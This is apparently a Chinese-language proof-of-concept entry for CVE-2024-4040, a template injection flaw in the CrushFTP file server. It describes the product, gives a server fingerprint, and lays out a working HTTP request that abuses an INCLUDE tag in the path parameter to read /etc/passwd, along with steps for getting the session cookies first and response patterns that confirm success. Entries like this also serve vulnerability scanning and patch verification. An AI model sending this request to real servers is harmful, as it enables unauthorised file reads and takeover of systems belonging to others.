﻿# CrushFTP 服务器端 模板注入漏洞

> 更新时间：2024-04-29

> 漏洞编号： CVE-2024-4040

> 漏洞说明：CrushFTP 是一个功能强大的跨平台文件传输服务器软件。它提供了安全、高性能的文件传输服务，支持多种文件传输协议，包括 FTP、FTPS、SFTP、HTTP、HTTPS 等。CrushFTP 提供了许多先进的功能和配置选项，使其成为企业和个人用户进行文件传输的理想选择。以下是一些 CrushFTP 的主要特点：多协议支持、安全性、跨平台、高性能、自定义配置。CrushFTP 在企业、教育机构、政府部门等许多领域被广泛应用，它提供了可靠、安全且易于使用的文件传输解决方案。其接口/WebInterface/function/存在模板注入漏洞，攻击者可通过该漏洞读取文件、控制系统等等。

> 漏洞特征：server="CrushFTP"

> 验证脚本：HTTP

```
GET /WebInterface/function/?command=zip&c2f=7HhJ&path=%3CINCLUDE%3E/etc/passwd%3C/INCLUDE%3E&names=* HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: currentAuth=7HhJ;CrushAuth=1714275533532_zx4ngKqwkGsIvlbmG8U3Tv0Q1r7HhJ

```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：CrushFTP 服务器端 模板注入漏洞.poc

```
备注说明：
1、获取cookie的双值
GET / HTTP/1.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

响应：302，返回值：
Set-Cookie: currentAuth=G3fl;path=/
Set-Cookie: CrushAuth=1714284710416_zS8g6Qw1gDESrFY4tYfCJGSL5jG3fl; path=/;HttpOnly
```
